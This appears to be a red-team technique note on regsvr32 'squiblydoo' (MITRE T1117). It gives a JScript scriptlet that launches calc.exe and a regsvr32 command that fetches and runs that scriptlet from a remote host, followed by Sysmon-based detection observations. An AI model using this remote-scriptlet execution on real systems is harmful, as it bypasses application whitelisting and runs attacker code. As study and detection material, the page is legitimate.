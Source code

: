 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}

